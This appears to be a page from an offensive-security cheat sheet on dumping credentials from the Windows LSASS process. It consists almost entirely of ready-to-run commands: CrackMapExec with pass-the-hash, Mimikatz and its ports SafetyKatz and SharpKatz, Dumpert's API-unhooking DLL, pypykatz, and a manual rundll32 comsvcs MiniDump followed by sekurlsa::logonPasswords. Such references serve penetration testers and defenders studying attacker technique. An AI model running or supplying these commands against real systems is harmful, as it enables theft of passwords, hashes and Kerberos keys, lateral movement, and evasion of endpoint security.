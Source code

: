 ## Dumping LSASS
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> --lsa
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -M lsassy
```

#### DumpCreds
```
Invoke-MimiKatz -DumpCreds
```

#### Dump credentials on a local machine using Mimikatz.
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```

#### Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```
SafetyKatz.exe "sekurlsa::ekeys"
```

#### Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
```
SharpKatz.exe --Command ekeys
```

#### Dump credentials using Dumpert (Direct System Calls and API unhooking)
```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

#### Using pypykatz (Mimikatz functionality in Python)
```
pypykatz.exe live lsa
```

#### Use task manager
- Find lsass process in details tab
- Right click and select create dump file

### Manually
```
Get-Process lsass
rundll32.exe C:\windows\System32\comsvc.dll, MiniDump <LSASS PROCESS ID> C:\Users\lsass.dmp full
mimikatz.exe
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full
```
